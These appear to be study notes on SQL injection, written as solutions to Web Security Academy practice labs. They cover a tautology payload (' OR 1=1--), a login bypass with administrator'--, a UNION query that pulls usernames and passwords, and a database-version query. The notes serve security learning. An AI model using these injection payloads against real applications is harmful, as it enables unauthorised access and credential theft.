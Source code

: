 - The modified query will return all items where either the category is Gifts, or 1 is equal to 1. 
- Since `1=1` is always true, the query will return all items.

#### Lab SQL injection vulnerability in WHERE clause allowing retrieval of hidden data
**Solution:**  
`https://0a3000280458a2f9c01407300056003c.web-security-academy.net/filter?category=Gifts%27+OR+1=1--`

---
### Subverting Application Logic

- Example applications that lets user log in with username and password.

***SQL query result***
```sql
SELECT * FROM users WHERE username = 'wiener' AND password = 'bluecheese'
```

- Attacker examples where username is entered as `administrator'--`  

***SQL query result***
```sql
SELECT * FROM users WHERE username = 'administrator'--' AND password = ''
```

#### Lab SQL injection vulnerability allowing login bypass
**Solution:**  
- Click `Home | >> My Account`
- Fill in username as `administrator'--`
- Fill in password as any value ie. `blah`

---
### Retrieving data from other database tables

- Leveraging SQL injection using `UNION` keyword.

Example:
```sql
SELECT name, description FROM products WHERE category = 'Gifts'' UNION SELECT username, password FROM users--
```

- This will cause the application to return all usernames and passwords along with the names and descriptions of products.

---
### Examining the database

- Obtaining information about the database itself. 
- Information gathered may assist with further exploitation

Examples:  
- Obtaining SQL version or table schema

```sql
SELECT * FROM v$version
```
